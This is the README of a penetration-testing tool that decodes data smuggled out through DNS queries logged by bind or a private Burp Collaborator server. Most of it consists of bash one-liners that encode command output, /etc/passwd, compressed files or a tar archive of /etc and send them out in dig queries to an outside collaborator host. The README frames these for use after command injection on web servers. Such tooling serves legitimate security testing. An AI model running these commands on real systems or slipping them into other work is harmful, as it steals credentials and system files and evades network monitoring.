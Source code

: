 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode base32- or hex-encoded exfiltrated data. 

Burp Collaborator allows prepending hostnames to the provided address. You may prepend names (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as hex- or base32-encoded data, see below). You may also prepend multiple names, as long as the entire request is 253 bytes or less. This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar burpsuite_pro.jar --collaborator-server | tee collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`) or lowercase hex (`0-9`, `a-f`), which which is safe for DNS queries (and can typically be sent via `bash` on Linux/Unix systems using `base32` or `xxd`). base32 is twice as efficient as hex. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

In the examples below: `<Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`. Use a different query ID for each transfer.

For `base32`, the `-w63` flag specifies line wrapping at 63 bytes. For `xxd` (hex): the `-p` flag is 'output  in  postscript  continuous  hexdump style', and `-c31` is count of 31 hex characters (62 bytes sent).

If results are unreliable you can specify the name or IP of the DNS server via `dig @`...

### Send STDOUT from a command

#### base32
```
ifconfig | base32 -w63 | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```
```
ls / | base32 -w63 | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
ifconfig | xxd -p -c31 | while read a; do dig $a.<Name>.<DNS Server>; done;
```
```
ls / | xxd -p -c31 | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode the output
```
dns-parse.py <Name> (query.log|collaborator.log)
```

### Exfiltrate a file

#### base32
```
base32 -w63 < /etc/passwd | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
xxd -p -c31 < /etc/passwd | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode the file
```
dns-parse.py <Name> (query.log|collaborator.log)
```

### Exfiltrate a compressed file:

#### base32
```
gzip - < /etc/passwd | base32 -w63 | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
gzip - < /etc/passwd | xxd -p -c31 | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode/unzip the file
```
dns-parse.py <Name> (query.log|collaborator.log) | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

#### base32
```
tar czf - /etc | base32 -w63 | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
tar czf - /etc | xxd -p -c31 | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode/save the tar archive
```
dns-parse.py <Name> (query.log|collaborator.log) > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (STDOUT exfiltration via base32):
```
dns-parse.py qysipx9bbnhv0u5ez2dkmzuh68cy0n collaborator1.log
```

[collaborator2.log](collaborator2.log) (/etc/passwd exfiltration via base32):
```
dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator2.log
```

[collaborator3.log](collaborator3.log) (gzipped /etc/passwd exfiltration via base32):
```
dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator3.log | zcat
```

